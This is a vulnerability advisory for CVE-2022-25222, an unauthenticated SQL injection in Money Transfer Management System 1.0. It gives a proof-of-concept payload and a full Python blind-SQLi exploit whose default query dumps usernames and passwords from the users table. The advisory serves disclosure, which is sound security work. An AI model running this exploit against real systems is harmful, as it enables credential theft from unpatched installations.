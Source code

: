 ```yaml
---
slug: advisories/berry/
title: Money Transfer Management System 1.0 - Unauthenticated SQLi
authors: Oscar Uribe
writer: ouribe
codename: berry
product: Money Transfer Management System 1.0
date: 2022-03-15 12:00 COT
cveid: CVE-2022-25222
severity: 7.5
description: Money Transfer Management System 1.0 - Unauthenticated SQL Injection
keywords: Fluid Attacks, Security, Vulnerabilities, MTMS, SQL
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                         |                                                                  |
|-------------------------|------------------------------------------------------------------|
| **Name**                | Money Transfer Management System - Unauthenticated SQL Injection |
| **Code name**           | [Berry](https://en.wikipedia.org/wiki/Chuck_Berry)               |
| **Product**             | Money Transfer Management System                                 |
| **Affected versions**   | Version 1.0                                                      |
| **State**               | Public                                                           |
| **Release date**        | 2022-03-15                                                       |

## Vulnerability

|                       |                                                                                 |
|-----------------------|---------------------------------------------------------------------------------|
| **Kind**              | SQL injection                                                                   |
| **Rule**              | [146. SQL injection](https://docs.fluidattacks.com/criteria/vulnerabilities/146)|
| **Remote**            | Yes                                                                             |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N                                    |
| **CVSSv3 Base Score** | 7.5                                                                             |
| **Exploit available** | Yes                                                                             |
| **CVE ID(s)**         | [CVE-2022-25222](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25222)                                                                                      |

## Description

Money Transfer Management System **Version 1.0** allows an unauthenticated
user to inject SQL queries in `admin/maintenance/manage_branch.php`
and `admin/maintenance/manage_fee.php` via the `id` parameter.

## Proof of Concept

Steps to reproduce

1. Go to `http://127.0.0.1/mtms/admin/maintenance/manage_branch.php`

2. Insert the following query inside the `id` parameter.

```sql
?id=1' and 1=1 -- -
```

3. The server response changes if the second part of the query is true or false.
   To automate the process use the below exploit.

System Information

* Version: Money Transfer Management System version 1.0.
* Operating System: Linux.
* Web Server: Apache
* PHP Version: 7.4
* Database and version: MySQL

## Exploit

```python
import requests
import urllib.parse

dictionary = """0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ !"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~"""

def sqli_bool(base_url,query):


    url = "?id=1' and %s -- -" % query

    #proxies = {'http':'http://127.0.0.1:8080','https':'https://127.0.0.1:8080'}
    #r = requests.get(base_url+url, proxies=proxies)
    r = requests.get(base_url+url)

    if len(r.text) > 2700:
        return True

    else:
        return False


def get_length(url, query):

    for i in range(0,200):
        current_query = "(length((%s))=%s)"%(query,str(i))
        current_query = current_query=urllib.parse.quote(current_query)
        if sqli_bool(url,current_query):
            break

    if i !=199:
        return i
    else:
        return -1


def make_query(url,query):

    # Get length
    length = get_length(url,query)

    print("[*] Getting output length:")
    if length == -1:
        print("Error getting query length")
        return 0
    print("[+] Output Lenght: " + str(length))

    current_result = ""

    print()
    print("[*] Getting output: ")

    for pos in range(length+1):
        for char in dictionary:

            current_query = '(substr((%s),%s,1)="%s")' %(query,str(pos),requests.utils.quote(char))
            if sqli_bool(url,current_query):
                current_result += char
                print(current_result, end='\r')
                break

    print("[+] Found: " + " " * 100)
    print(current_result)


url = "http://127.0.0.1/mtms/admin/maintenance/manage_branch.php"

# must be only 1 row
# use limit and offset to iterate

# CHANGE THIS
query = "select concat(username,':', password) as t1 from users limit 1"

make_query(url,query)
```

## Mitigation

By 2022-03-15 there is not a patch resolving the issue.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

|                     |                                                                     |
|---------------------|---------------------------------------------------------------------|
| **Vendor page**     | <https://www.sourcecodester.com/php/15015/money-transfer-management-system-send-money-businesses-php-free-source-code.html>           |

## Timeline

* 2022-02-15: Vulnerability discovered.

* 2022-02-15: Vendor contacted.

* 2022-03-15: Public Disclosure.
